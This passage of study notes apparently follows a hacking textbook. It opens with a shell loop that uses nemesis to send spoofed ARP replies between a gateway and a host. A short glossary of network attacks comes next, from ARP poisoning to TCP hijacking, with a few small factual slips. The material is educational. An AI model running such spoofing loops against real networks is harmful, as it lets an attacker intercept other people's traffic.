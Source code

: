       reader@hacking:~/booksrc $ while true
      > do
      > sudo nemesis arp -v -r -d eth0 -S 192.168.0.1 -D 192.168.0.118 -h
      00:00:AD:D1:C7:ED -m 00:C0:F0:79:3D:30 -H 00:00:AD:D1:C7:ED -M 
      00:C0:F0:79:3D:30
      > sudo nemesis arp -v -r -d eth0 -S 192.168.0.118 -D 192.168.0.1 -h 
      00:00:AD:D1:C7:ED -m 00:50:18:00:0F:01 -H 00:00:AD:D1:C7:ED -M 
      00:50:18:00:0F:01
      > echo "Redirecting..."
      > sleep 10
      > done
      ```

### Attacks
#### Definitions/Concepts to know
- **ARP Poisoning** is a man in the middle style attack that takes advantage of the fact that ARP requests, used to pair IP addresses with MACs, are stateless and machines accept replies without valid requests
- **SYN FLood** exhausts the connection states of a device by attempting to open a bunch of TCP connections without sending any information
  - This is prevented in linux via SYN cookies, which adjust initial ack numbers with info based on gost details, the connections dont become active unless the final ack is checked. This is done because ack packets require actual info to be sent.    
- **Ping of Death** occurs because the max ICMP echo size was 65538 bytes and people would purposefully send packets larger than this to crash systems. 
- **Teardrop** exploits a vulnerability in TCP fragmentation in which the numbers are supposed to reassemble packets with no overlap, if overlap occured it could cause programs to crash.
- **Amplification attacks** take advantage of broadcast domains by pinging the broadcast address with the spoofed IP of the victim causing all devices in the domain to reply to the request to the victim. 
- **TCP/IP Hijacking** - grabs the sequence and acknowledgement numbers from a legitimate connection (usually something that uses one time passwords) and spoofs its IP address along with the proper sequence and acknowledgement numbers for a man on the side style attack
